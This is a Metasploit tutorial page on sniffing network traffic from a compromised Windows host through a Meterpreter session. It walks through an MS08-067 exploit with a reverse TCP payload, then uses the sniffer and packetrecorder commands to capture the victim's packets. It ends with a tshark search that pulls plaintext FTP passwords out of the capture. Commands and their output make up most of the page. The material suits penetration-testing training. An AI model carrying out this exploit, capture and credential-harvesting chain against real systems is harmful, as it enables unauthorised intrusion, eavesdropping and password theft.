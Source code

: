 ```yaml
---
draft: false
title: MSF Packet Sniffing
linkTitle: Packet Sniffing
translationKey: msf-packet-sniffing
weight: 300
date: 2017-06-05T13:32:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: You may want to see the information sent and received by the target computer when you open a meterpreter shell on a target computer. 
url: /msf-packet-sniffing/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

## Packet Sniffing

When you open the meterpreter shell on a target computer using the Metasploit Framework, you may want to see the information sent and received during the communication made by the computer you are connected to on the network. This process is called **packet sniffing**.

You can record this traffic with the Meterpreter `sniffer` module. The `sniffer` module, which can record up to 200,000 packets in total, records the packets in PCAP format. Thus, you can analyze the PCAP file with `psnuffle, dsniff or wireshark` programs.

The Meterpreter `sniffer` plugin uses the MicroOLAP Packet Sniffer SDK. It does not send or receive data from any part of the disk to listen to the packets. In addition, it prevents confusion by keeping the packets created by meterpreter out of the record. The data captured by meterpreter is transferred to our computer encrypted using SSL/TLS.

## Let's Log In to Meterpreter

First, you should open a meterpreter session using a service or vulnerability you discovered. You can see an example below.

```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpeter/reverse_tcp
msf exploit(ms08_067_netapi) > set LHOST 10.211.55.126
msf exploit(ms08_067_netapi) > set RHOST 10.10.1.119
msf exploit(ms08_067_netapi) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Triggering the vulnerability...
> Transmitting intermediate stager for **over-sized stage...(216 bytes)
> Sending stage (205824 bytes)
> Meterpreter session 1 opened (10.10.1.4:4444 -> 10.10.1.119:1921)
```

## Let's Load the Sinffer Module

When the Meterpreter session is opened, we need to activate the plugin with the `use sniffer` command. Then, when you give the `help` command, you can see the available commands related to `sniffer` in the help list.

```bash
meterpreter > use sniffer
Loading extension sniffer...success.

meterpreter > help

Sniffer Commands
**================**

     Command             Description
     -------             -----------
     sniffer_dump        Retrieve captured packet data
     sniffer_interfaces  List all remote sniffable interfaces
     sniffer_start       Capture packets on a previously opened interface
     sniffer_stats       View statistics of an active capture
     sniffer_stop        Stop packet captures on the specified interface
```

## Listenable Interfaces

To see which network interfaces are active on the target system, we examine the list using the `sniffer_interfaces` command.

```bash
meterpreter > sniffer_interfaces

1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
```

## Start Listening

In our example, there is 1 interface. To listen to this network device, we give the `sniffer_start 1` command. The information will be saved to the `/tmp/all.cap` file.

```bash
meterpreter > sniffer_start 1
> Capture started on interface 1 (200000 packet buffer)
```

## Checking the Logs

While the listening process is in progress, you can use the `sniffer_dump` command to see how many packets were recorded and how many packets were written to the file.

```bash
meterpreter > sniffer_dump 1 /tmp/all.cap
> Dumping packets from interface 1...
> Wrote 19 packets to PCAP file /tmp/all.cap

meterpreter > sniffer_dump 1 /tmp/all.cap
> Dumping packets from interface 1...
> Wrote 199 packets to PCAP file /tmp/all.cap
```

## packetrecorder Plugin

In addition to the Meterpreter `sniffer` plugin, you can also use the `packetrecorder` script codes developed for packet listening. This module allows you to divide packet records into specific time intervals. For example, you may want to record at 30-second intervals.

Let's Activate ### packetrecorder

```bash
meterpreter > run packetrecorder
Meterpreter Script for **capturing packets **in **to a PCAP file
on a target host given an interface ID.

OPTIONS:

 -h Help menu.
 -i Interface ID number where all packet capture will be **done**.
 -l Specify and alternate folder to save PCAP file.
 -li List interfaces that can be used for **capture.
 -t Time interval **in **seconds between recollection of packet, default 30 seconds.
```

Before we start listening, let's check the list of listenable interfaces.

```bash
meterpreter > run packetrecorder -li

1 - 'Realtek RTL8139 Family PCI Fast Ethernet NIC' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )
2 - 'Citrix XenServer PV Ethernet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
3 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
```

In this example, we see that there are 3 network devices. With the `-i 2` option, we specify that we will listen to interface number 2. With the `-l /root/` option, we specify where the PCAP file will be saved. After the listening starts, you can use the `CTRL+C` keys to finish the process after a while.

```bash
meterpreter > run packetrecorder -i 2 -l /root/
> Starting Packet capture on interface 2
[+] Packet capture started
> Packets being saved **in **to /root/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105/XEN-XP-SP2-BARE_20101119.5105.cap
> Packet capture interval is 30 Seconds
^C
> Interrupt
[+] Stopping Packet sniffer...
meterpreter >
```

You can analyze the recorded PCAP file with `wireshark` or `tshark` programs. Below is an example of the `tshark` command. The example command searches for packets that contain the `PASS` statement in the packets.

```bash
root@kali:~/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105# tshark -r XEN-XP-SP2-BARE_20101119.5105.cap |grep PASS
Running as user "root" and group "root". This could be dangerous.
2489 82.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t
2685 96.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t```
